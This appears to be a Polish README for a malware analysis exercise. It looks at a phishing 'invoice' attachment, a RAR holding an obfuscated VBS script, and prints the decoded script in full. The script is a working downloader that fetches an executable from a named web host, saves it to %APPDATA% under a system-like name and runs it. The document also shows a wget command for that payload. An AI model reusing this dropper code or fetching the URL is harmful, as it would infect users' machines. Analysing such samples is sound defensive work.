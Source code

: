 
### Email

(zrzut ekranu: Alt+PrintScreen)

![#1](images/screenshot.png?raw=true)   

### Sprawdzenie typu pliku z załącznika

```bash
$ file FAKTURA-F_30015967_10_17-KONTO.PDF.z
```
```
FAKTURA-F_30015967_10_17-KONTO.PDF.z: RAR archive data, v1d, os: Win32
```

### Ręczne rozkompresowanie załącznika

```bash
$ unrar e FAKTURA-F_30015967_10_17-KONTO.PDF.z
```

### Uruchomienie skryptu

```bash
$ python3 main.py FAKTURA-F_30015967_10_17-KONTO_PDF.vbs
```

```
Function downtknku(vzwuieoih)
Dim rxdsiwxtj, mdqaunbkz
For rxdsiwxtj = 1 To LenB(vzwuieoih)
mdqaunbkz = mdqaunbkz & Chr(AscB(MidB(vzwuieoih, rxdsiwxtj, 1)))
Next
downtknku = mdqaunbkz
End Function
Sub tdfnnuozd(qnwjhkrxa, rccibvhsh)
Dim hnhvbstsd: Set hnhvbstsd = CreateObject("MSXML2.ServerXMLHTTP")
Dim kjzcwdtbh: kjzcwdtbh = "GET"
hnhvbstsd.Open kjzcwdtbh, qnwjhkrxa, False
hnhvbstsd.Send
Dim ltflwoyxp, huucogspg
Set huucogspg = CreateObject("Scripting.FileSystemObject").OpenTextFile(rccibvhsh, 2, True)
huucogspg.WriteLine (downtknku(hnhvbstsd.ResponseBody))
huucogspg.Close()
Set hnhvbstsd = Nothing
Set huucogspg = Nothing
End Sub
Dim lanmlpber: lanmlpber = CreateObject("WScript.Shell").ExpandEnvironmentStrings("%APPDATA%") & "\TCPSVCS.EXE"
Dim qdktxwzal: qdktxwzal = "http://dziegiel3.cba.pl/jkl/klws.exe"
tdfnnuozd qdktxwzal, lanmlpber
CreateObject("WScript.Shell").Run Chr(34) & lanmlpber & Chr(34)
```

### Pobranie pliku z serwera

Po dekodowaniu tekstu widać link do pliku na serwerze WWW więc można spróbować go ściągnąć

```bash
$ wget http://dziegiel3.cba.pl/jkl/klws.exe
```

### Przejrzenie zawartości

Wyświetlenie napisów w pliku

```bash
$ strings binstxt.exe
```

Nic ciekawego nie pokazało

### Sprawdzenie adresów WWW

```bash
$ whois dziegiel3.cba.pl
```




